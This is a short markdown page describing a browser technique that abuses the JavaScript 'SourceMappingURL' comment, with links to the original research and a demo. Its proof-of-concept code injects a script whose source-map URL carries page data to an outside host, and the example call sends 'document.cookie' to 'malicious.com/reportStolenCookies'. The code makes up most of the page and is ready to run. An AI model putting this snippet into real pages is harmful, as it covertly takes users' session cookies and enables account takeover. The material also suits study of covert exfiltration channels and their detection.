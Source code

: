 # SourceMappingURL

### POC

```javascript
function  smap(url, data)  {
    const script = document.createElement('script');
    script.textContent =  `//# SourceMappingURL=${url}?data=${JSON.stringify(data)}`;
    document.head.appendChild(script);
    script.remove();
}

smap('https://malicious.com/reportStolenCookies',  {cookie: document.cookie});
```
### Resources

- [Original research and fully detailed explanation](https://weizman.github.io/website/?javascript-anti-debugging-some-next-level-shit-part-1) [[Gal Weizman](https://weizman.github.io/website)]
- [Demo site](https://us-central1-smap-251411.cloudfunctions.net/index) [[Gal Weizman](https://weizman.github.io/website)]
